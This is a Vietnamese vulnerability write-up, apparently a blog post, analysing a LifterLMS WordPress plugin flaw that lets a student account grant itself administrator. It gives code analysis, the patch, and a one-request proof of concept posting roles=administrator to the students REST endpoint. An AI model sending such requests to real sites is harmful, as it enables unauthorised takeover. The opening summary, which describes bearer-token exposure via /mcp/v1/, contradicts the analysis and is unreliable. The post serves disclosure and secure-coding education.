


<!--more-->

## CVE & Basic Info
Plugin LifterLMS cho WordPress bị lỗ hổng **lộ thông tin nhạy cảm** trong tất cả các phiên bản từ trước đến **9.1.0**, thông qua endpoint REST API **/mcp/v1/**. Lỗ hổng này làm lộ **Bearer Token** khi tùy chọn **“No-Auth URL”** được bật. Điều này cho phép kẻ tấn công **không cần xác thực** lấy được bearer token, từ đó có thể truy cập vào một phiên làm việc hợp lệ và thực hiện nhiều hành động như **tạo tài khoản quản trị viên mới**, dẫn đến **leo thang đặc quyền**.

* **CVE ID**: [CVE-2025-11923](https://www.cve.org/CVERecord?id=CVE-2025-11923)
* **Vulnerability Type**: Privilege Escalation
* **Affected Versions**: <= 9.1.0
* **Patched Versions**: 9.1.1
* **CVSS severity**: High (9.8)
* **Required Privilege**: Student
* **Product**: [WordPress LifterLMS Plugin](https://wordpress.org/plugins/lifterlms/)

## Requirements
* **Local WordPress & Debugging**
    * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
    * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **LifterLMS**:  
    * `9.1.0` – **vulnerable**  
    * `9.1.1` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ diff nào.

## Analysis 
Plugin đã đăng ký API:

```php {title="class-llms-rest-controller.php v9.1.0" data-open=true hl_lines=[17,18]}
public function register_routes() {
    // $this->namespace = 'llms/v1'
    // $this->rest_base = 'students'
    register_rest_route(
        $this->namespace,
        '/' . $this->rest_base . '/(?P<id>[\d]+)',
        array(
            'args'   => array(
                'id' => array(
                    'description' => __( 'Unique identifier for the resource.', 'lifterlms' ),
                    'type'        => 'integer',
                ),
            ),
            ...
            array(
                'methods'             => WP_REST_Server::EDITABLE, // POST, PUT, PATCH
                'callback'            => array( $this, 'update_item' ),
                'permission_callback' => array( $this, 'update_item_permissions_check' ),
                'args'                => $this->get_endpoint_args_for_item_schema( WP_REST_Server::EDITABLE ), // see class-wp-rest-controller.php.
            ),
            ...
            'schema' => array( $this, 'get_public_item_schema' ),
        )
    );
}
```

Với cấu hình trên, API được expose dưới dạng:

```
/wp-json/llms/v1/students/{id}
```

Trong đó:
* `(?P<id>[\d]+)` là một named regex group, WordPress sẽ tự động parse giá trị này và gán vào URL params.
* `WP_REST_Server::EDITABLE` tương đương với các method: `POST`, `PUT`, `PATCH` => điều này yêu cầu header `X-WP-Nonce` trong request

Khi có request gửi đến endpoint này với method hợp lệ, WordPress sẽ gọi `update_item()`. Tuy nhiên, trước khi hàm này được thực thi, request bắt buộc phải vượt qua bước kiểm tra quyền thông qua `update_item_permissions_check()`.

```php {title="class-llms-rest-students-controller.php v9.1.0" data-open=true hl_lines=[2]}
public function update_item_permissions_check( $request ) {
    if ( get_current_user_id() === $request['id'] ) {
        return true;
    }

    if ( ! current_user_can( 'edit_students', $request['id'] ) ) {
        return llms_rest_authorization_required_error( __( 'You are not allowed to edit this student.', 'lifterlms' ) );
    }

    return $this->check_roles_permissions( $request );
}
```

Tại dòng 2, hàm gọi `get_current_user_id()` để lấy ID của user đang đăng nhập, sau đó so sánh với giá trị `id` được truyền qua URL. Nếu hai giá trị này trùng nhau, nghĩa là người dùng đang chỉnh sửa chính tài khoản của mình, và request được cho phép ngay.

`get_current_user_id()` chỉ trả về giá trị khác `0` khi request đã được xác thực thành công. Việc xác thực này phụ thuộc vào việc request có kèm theo `X-WP-Nonce` hợp lệ hay không. Nguyên nhân là vì trong quá trình xử lý REST API, WordPress luôn gọi callback `rest_cookie_check_errors`.


Nếu không có nonce trong query/body (`_wpnonce`) hoặc trong header (X-WP-Nonce) thì user hiện tại sẽ được gán `id=0` khiến `get_current_user_id()` sẽ trả về 0. Nếu nonce không hợp lệ => request bị reject hoàn toàn.



Để lấy được REST API nonce, ta cần đăng nhập vào Admin Dashboard và gọi `wpApiSettings.nonce` trong **browser console**, vì nonce này chỉ được WordPress inject vào trang khi người dùng đã đăng nhập hợp lệ.


Khi vượt qua được bước kiểm tra quyền, `update_item` được gọi:

```php {title="class-llms-rest-controller.php v9.1.0" data-open=true hl_lines=[2,11]}
public function update_item( $request ) {
    $object = $this->get_object( $request['id'] );
    if ( is_wp_error( $object ) ) {
        return $object;
    }

    $schema = $this->get_item_schema();
    $item   = $this->prepare_item_for_database( $request );
    // Exclude additional fields registered via `register_rest_field()`.
    $item   = array_diff_key( $item, $this->get_additional_fields() );
    $object = $this->update_object( $item, $request );
    ...
    $response = $this->prepare_item_for_response( $object, $request );

    return $response;
}
```

Hàm này tạo đối tượng student tương ứng với `id` được truyền trong request, sau đó gọi `update_object()` để cập nhật student với các tham số tương ứng:

```php {title="class-llms-rest-users-controller.php v9.1.0" data-open=true hl_lines=[2,11]}
protected function update_object( $prepared, $request ) {
    $prepared['ID'] = $prepared['id'];

    $object_id = wp_update_user( $prepared );
    if ( is_wp_error( $object_id ) ) {
        return $object_id;
    }

    unset( $prepared['ID'] );

    return $this->update_additional_data( $object_id, $prepared, $request );
}
```

Biến `$prepared` là giá trị trả về của hàm `prepare_item_for_database()`. Tuy nhiên, trong quá trình xử lý, field roles — vốn cần thiết để thực hiện tấn công **Privilege Escalation** — đã bị loại bỏ.



`update_additional_data()` được gọi sau khi dữ liệu chính của student đã được cập nhật, nhằm xử lý các dữ liệu mở rộng (additional data) gắn với user nhưng không nằm trong bảng chính.

```php {title="class-llms-rest-users-controller.php v9.1.0" data-open=true hl_lines=[2,8]}
protected function update_additional_data( $object_id, $prepared, $request ) {
    $object = $this->get_object( $object_id );
    ...
    if ( ! empty( $request['roles'] ) ) {
        $user = $object->get_user();
        $user->set_role( '' );
        foreach ( $request['roles'] as $role ) {
            $user->add_role( $role );
        }
    }

    return $object;
}
```

Hàm này tạo đối tượng student tương ứng với `id` được truyền trong request, sau đó duyệt qua danh sách `roles` do client gửi lên và gán từng role cho user.

Đây chính là điểm mấu chốt dẫn đến lỗ hổng **Privilege Escalation**.

Bản vá đã cập nhật lại logic kiểm tra quyền trong `update_item_permissions_check()` như sau:

```php {title="class-llms-rest-users-controller.php v9.1.0" data-open=true hl_lines=[]}
public function update_item_permissions_check( $request ) {

    if ( is_wp_error( ( new WP_REST_Users_Controller() )->update_item_permissions_check( $request ) ) ) {
        return llms_rest_authorization_required_error( __( 'You are not allowed to edit this user.', 'lifterlms' ) );
    }

    if ( ! empty( $request['roles'] ) ) {
        return $this->check_roles_permissions( $request );
    }

    return true;
}
```

Trước tiên, hàm gọi lại `update_item_permissions_check()` của `WP_REST_Users_Controller` để đảm bảo toàn bộ cơ chế kiểm tra quyền mặc định của WordPress được áp dụng.

Nếu hàm này trả về lỗi (`WP_Error`), request sẽ bị từ chối ngay lập tức.

Nếu request có chứa trường `roles`, hệ thống tiếp tục gọi `check_roles_permissions()` để kiểm tra quyền gán role.

Nếu không có `roles`, request được cho phép thực thi.

Hàm `check_roles_permissions()` được định nghĩa như sau:

```php {title="class-llms-rest-users-controller.php v9.1.0" data-open=true hl_lines=[]}
protected function check_roles_permissions( $request ) {

    global $wp_roles;

    $schema = $this->get_item_schema();
    $roles  = array();

    if ( ! empty( $request['roles'] ) ) {
        $roles = $request['roles'];
    } elseif ( ! empty( $schema['properties']['roles']['default'] ) ) {
        $roles = $schema['properties']['roles']['default'];
    }

    foreach ( $roles as $role ) {

        if ( ! isset( $wp_roles->role_objects[ $role ] ) ) {
            return llms_rest_bad_request_error(
                sprintf( __( 'The role %s does not exist.', 'lifterlms' ), $role )
            );
        }

        $potential_role = $wp_roles->role_objects[ $role ];

        /*
         * Don't let anyone with 'edit_users' (admins) edit their own role to something without it.
         * Multisite super admins can freely edit their blog roles -- they possess all caps.
         */
        if (
            ! ( is_multisite() && current_user_can( 'manage_sites' ) )
            && get_current_user_id() === $request['id']
            && ! $potential_role->has_cap( 'edit_users' )
        ) {
            return llms_rest_authorization_required_error(
                __( 'You are not allowed to give users this role.', 'lifterlms' )
            );
        }

        // Include admin functions to get access to `get_editable_roles()`.
        require_once ABSPATH . 'wp-admin/includes/admin.php';

        // The new role must be editable by the logged-in user.
        $editable_roles = get_editable_roles();

        if ( empty( $editable_roles[ $role ] ) ) {
            return llms_rest_authorization_required_error(
                __( 'You are not allowed to give users this role.', 'lifterlms' )
            );
        }
    }

    return true;
}
```

Cơ chế này đảm bảo:

* Luôn kế thừa đầy đủ kiểm tra quyền gốc của WordPress.
* Không cho phép tự thay đổi role nếu không có quyền tương ứng.
* Không cho gán role không tồn tại hoặc không nằm trong danh sách role có thể chỉnh sửa.
* Loại bỏ hoàn toàn khả năng **Privilege Escalation** thông qua REST API.

## Flow

flowchart TD
A["Authenticated Student (has valid nonce)"]
--> B["Send POST /wp-json/llms/v1/students/{id}"]

B --> C["update_item_permissions_check()"]

C --> D{"get_current_user_id() == request.id ?"}

D -- Yes --> E["Bypass capability checks"]
D -- No --> F["Denied"]

E --> G["update_item()"]

G --> H["prepare_item_for_database()"]
H --> I["roles field removed from prepared data"]

I --> J["update_object()"]
J --> K["update_additional_data()"]

K --> L["Read roles directly from request"]
L --> M["Apply roles via set_role() / add_role()"]

M --> N["User role escalated"]


## Proof of Concept (PoC)
1. Login bằng tài khoản student
2. Login vào Admin Dash board và lấy nonce từ browser console thông qua gọi `wpApiSettings.nonce`
3. Gửi request:

```http
POST /wp-json/llms/v1/students/8 HTTP/1.1
Host: localhost
Cookie: student_cookie
X-WP-Nonce: valid_nonce

roles=administrator
```


## Conclusion

Lỗ hổng xuất phát từ việc **logic kiểm tra quyền và logic cập nhật dữ liệu bị tách rời**, cho phép trường `roles` được xử lý sau khi vượt qua bước kiểm tra ban đầu. Điều này khiến người dùng hợp lệ có thể tự gán quyền cao hơn cho chính mình thông qua REST API, dẫn đến **Privilege Escalation**.
Bản vá đã khắc phục bằng cách áp dụng đầy đủ kiểm tra quyền của WordPress trước khi cho phép thay đổi role.

## Key Takeaways

* Không được xử lý dữ liệu nhạy cảm ngoài phạm vi kiểm tra quyền.
* `roles` phải luôn được kiểm soát bằng permission gốc của WordPress.
* Kiểm tra quyền cần gắn chặt với toàn bộ luồng xử lý, không chỉ ở bước đầu.
* Việc tách logic không đồng bộ có thể dẫn đến leo thang đặc quyền nghiêm trọng.

## References
[Privilege Escalation](https://patchstack.com/academy/wordpress/vulnerabilities/privilege-escalation/)

[WordPress LifterLMS Plugin <= 9.1.0 is vulnerable to a high priority Privilege Escalation](https://patchstack.com/database/wordpress/plugin/lifterlms/vulnerability/wordpress-lifterlms-plugin-various-versions-authenticated-student-privilege-escalation-vulnerability) 